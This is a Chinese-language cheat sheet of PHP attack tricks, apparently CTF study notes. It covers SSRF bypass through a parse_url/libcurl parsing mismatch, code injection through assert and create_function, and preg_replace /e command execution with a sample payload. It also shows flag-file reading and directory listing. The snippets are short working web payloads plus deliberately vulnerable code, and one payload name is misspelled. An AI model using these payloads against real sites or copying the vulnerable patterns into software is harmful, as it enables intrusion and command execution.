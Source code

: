 # PHP trick

https://paper.seebug.org/561/#parse_urllibcurlurlssrf



`Parse_url`

##### parse_url与libcurl对与url的解析差异可能导致ssrf

- 当url中有多个@符号时，**parse_url中获取的host是最后一个@符号后面的host，而libcurl则是获取的第一个@符号之后的。**因此当代码对`http://user@eval.com:80@baidu.com` 进行解析时，PHP获取的host是baidu.com是允许访问的域名，而最后调用libcurl进行请求时则是请求的eval.com域名，可以造成ssrf绕过
- 此外对于`https://evil@baidu.com`这样的域名进行解析时,php获取的host是`evil@baidu.com`，但是libcurl获取的host却是evil.com

##### url标准的灵活性导致绕过filter_var与parse_url进行ssrf

`assert`

参数过滤不当，执行php语句

```php
assert("file_get_contents('2333.pdf') and system('dir')");
```

`passthru`
命令执行

```php
<?php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
```

payload:
```?pat=/a/e&passru('ls%20-al')&sub=a
```

`copy`

拷贝文件

`readfile`
直接输出文件内容
```php
<?php
echo readfile('D:\\flag');
?>
```
输出内容加长度

`eval`

不带引号翻目录
`getcwd()`获取当前绝对路径
`dirname`返回上一级路径
`scandir`列目录文件

```php
<?php
var_dump(dirname(getcwd()));
```

`session_start`

session_start(option) 可以通过设置`option`设置`session`配置

![img](https://raw.githubusercontent.com/wiki/imtinmin/photo/php-session/4.png)

![img](https://raw.githubusercontent.com/wiki/imtinmin/photo/php-session/3.png)

```
session(array('save_path=/tmp'))
```

`create_function`
执行任意php代码
```php
<?php
create_function('','return "123";}phpinfo();//')
```

构造
```php
function abc(){
	return "123";}phpinfo();//
}
```